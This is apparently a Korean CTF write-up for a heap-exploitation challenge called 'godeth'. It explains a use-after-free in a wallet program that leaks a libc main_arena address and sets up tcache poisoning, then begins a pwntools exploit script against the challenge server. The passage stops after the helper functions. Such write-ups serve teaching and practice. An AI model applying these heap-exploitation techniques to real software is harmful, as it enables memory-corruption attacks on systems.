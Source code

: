   ```c
        case 5u:
          puts("bye da.");
          return 0LL;
        case 6u:
          v6 = sub_11DC();
          sub_1092((wallet *)&v7[16 * v6]);
          break;
        default:
          sub_11B3();
          break;
      }
    }
  }
  ```

- 위와 같은 main이 주어지며 wallet을 생성하고 입금, 지불, 확인을 할 수 있고 추가적으로 관리자 기능이 존재한다.  create_wallet을 통해 구조체를 얻을 수 있다.

  ```c
  struct wallet
  {
    char *addr;		// malloc(0x82)
    _QWORD *balance;	// malloc(input_balance)
  };
  
  ```

- 그리고 free가 되는 곳은 withdraw함수인데, 현재 가지고 있는 balance를 전부 소진(0이 돼야함)해야한다. 그리고 show함수에서는 wallet_count만큼 wallet을 출력해주므로 free(balance)가 된 wallet도 출력을 해주게 된다.

- 하지만 이는 tcache bin에 들어갈 수 있는 크기(max fast bin size: 0x80)이면 main_arena와의 unlink를 진행하지 않는다. 그러므로 어느정도 큰값을 할당시켜 free시켜주면 main_arena의 주소가 leak된다.

- 그리고 tcache bin의 특성상 실제로 free하지 않고 포인터를 가지고 있는데, heap chunk fd, bk에 해당하는 영역에 next chunk 주소가 들어가게 된다. 이는 다음 malloc(fastbin_size) 시, 참조하여 fd부분에 존재하는 next chunk를 그 다음 할당할 주소로 지정해준다. 이를 악용한 공격이 tcache_poisoning이다.

- 아래는 해당 기법을 사용해 구성한 공격 코드이다.

  ```python
  from pwn import *
  
  debug = False
  
  if debug:
  	con = process("./godeth")
  else:
  	#con = process("./godeth", env={"LD_PRELOAD":"./libc-2.27.so"})
  	con = remote("110.10.147.103", 10001)
  
  def create(balance):
  	con.sendlineafter("choice : ", "1")
  	con.sendlineafter("how much initial eth? : ", str(balance))
  
  def deposit(idx, balance):
  	con.sendlineafter("choice : ", "2")
  	con.sendlineafter("input wallet no : ", str(idx))
  	con.sendlineafter("how much deposit? : ", str(balance))
  
  def withdraw(idx, balance):
  	con.sendlineafter("choice : ", "3")
  	con.sendlineafter("input wallet no : ", str(idx))
  	con.sendlineafter("how much you wanna withdraw? : ", str(balance))
  
  def show():
  	con.sendlineafter("choice : ", "4")
  	return con.recvuntil("\n\n")
  ```